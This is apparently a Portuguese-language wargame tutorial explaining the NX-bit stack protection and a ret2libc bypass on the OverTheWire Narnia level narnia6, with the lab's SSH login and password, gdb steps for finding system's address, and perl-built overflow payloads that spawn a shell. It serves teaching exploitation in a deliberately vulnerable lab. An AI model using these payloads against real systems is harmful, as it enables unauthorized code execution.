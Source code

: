 <img width="30%" src="https://i.imgur.com/ULwPfn3.png"></img>

# NX-Bit
Essa é uma proteção que desabilita qualquer bit de execução na Stack, ou seja, não é possível utilizar um shellcode para spawnar uma shell ou algo do tipo<br>

## ret2libc
Felizmente (ou infelizmente pros ademir), existe um bypass pra essa proteção, que utiliza os recursos da libc para fazer uma execução no sistema<br>
Conecte-se ao narnia6 dessa vez, para a demonstração dessa técnica `narnia6@narnia.labs.overthewire.org -p2226` Senha `neezocaeng`<br><br>

<img src="https://i.imgur.com/JZVlHhE.png" width="60%"><br><br>

O narnia6 exige 2 argumentos, ou seja, ele contém 2 buffers<br>
Se você olhar a source, vai notar que os 2 buffers alocam 8 bytes<br><br>

<img src="https://i.imgur.com/p6SDIE8.png" width="60%"><br><br>

Vamos começar a depuração, repare que o `NX` está habilitado<br><br>

<img src="https://i.imgur.com/C7IXTRT.png" width="60%"><br><br>

De início, vamos escrever um payload pra 2 buffers, e que cada buffer contenha 8 bytes, o que seria o nosso offset<br>
`run $(perl -e 'print "a"x8 . "xxxx"') $(perl -e 'print "b"x8 . "xxxx"')`<br>
porém, não envie esse payload, antes vamos ter que resgatar algumas coisas...<br><br>

### getting system from libc
Para conseguir o endereço dessa função é simples, no depurador, sete execute um `b main` para setar um breakpoint na função main<br>
Inicie o programa, e assim que o breakpoint for atingido digite `p system` para printar o endereço da system<br><br>

<img src="https://i.imgur.com/8mdRcoQ.png" width="60%"><br><br>

Agora é a parte fácil...<br>
Pegue esse endereço, e monte o payload da seguinte forma `$(perl -e 'print "a"x8 . "\x50\xc8\xe4\xf7"') $(perl -e 'print "b"x8 . "/bin/sh"')`<br>
Feito isso, basta enviar<br><br>

`./narnia6 $(perl -e 'print "a"x8 . "\x50\xc8\xe4\xf7"') $(perl -e 'print "b"x8 . "/bin/sh"')`<br><br>

<img src="https://i.imgur.com/Q2U3hOd.png" width="60%"><br><br>

[pwn](../README.md)<br>
[home](../../README.md)
